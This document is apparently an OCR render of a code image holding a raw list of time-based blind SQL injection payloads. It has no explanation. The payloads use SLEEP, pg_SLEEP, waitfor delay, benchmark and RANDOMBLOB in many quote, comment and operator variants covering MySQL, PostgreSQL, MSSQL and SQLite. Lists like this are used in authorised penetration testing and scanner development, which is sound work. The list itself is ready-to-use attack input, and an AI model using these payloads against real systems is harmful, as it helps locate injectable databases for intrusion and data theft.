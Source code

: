 ```
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
